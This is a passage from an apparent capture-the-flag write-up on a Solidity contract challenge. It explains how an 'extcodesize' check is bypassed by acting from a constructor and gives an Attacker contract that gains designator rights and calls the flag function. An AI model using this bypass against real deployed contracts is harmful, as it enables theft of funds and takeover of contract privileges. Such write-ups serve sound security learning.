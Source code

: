 ```sol

    assembly {
        size := extcodesize(_addr)
    }

    return size == 0 && tx.origin != msg.sender;
}

function designateOwner() public {
    require(_canBeDesignator(msg.sender));
    require(balances[msg.sender] > 0);

    designators[msg.sender] = true;
}
```

There's some pretty suspicious code in `_canBeDesignator`, I wonder what it is about. After some googling I came across this great website, and specifically [this article here](https://consensys.github.io/smart-contract-best-practices/development-recommendations/solidity-specific/extcodesize-checks) which just straight up tells us how to exploit it.

The `extcodesize` is supposed to check if our contract contains code, in which case it is not a user interacting with the contract but rather another smart contract. To bypass this check we just need to put our code into the constructor of our `Attacker` contract. We can also see that by running `register` we can get a balance of 50 which is enough to pass the second check of `designateOwner`.
```sol
contract Attacker {
    Andes andes;

    constructor(address _andes) {
        andes = Andes(_andes);
        andes.register();
        andes.designateOwner();
    }

    function attack(bytes32 token) public {
        andes.playRound();

        andes.getFlag(token);
    }
}
```

Now that we are a designator, we can initiate a `playRound` ourselves. We don't know or control what `nextVal` is, so we can't just win on our first try. Only the `selector` can decide what `nextVal` will be, and the code to become the `selector` is in these functions:
```sol
function setNextSelector(address _selector) public onlyDesignators {
    require(_selector != msg.sender);
    selector = _selector;
}

function setNextNumber(uint8 value) public {
    require(selector == msg.sender);

    nextVal = value;
}
```
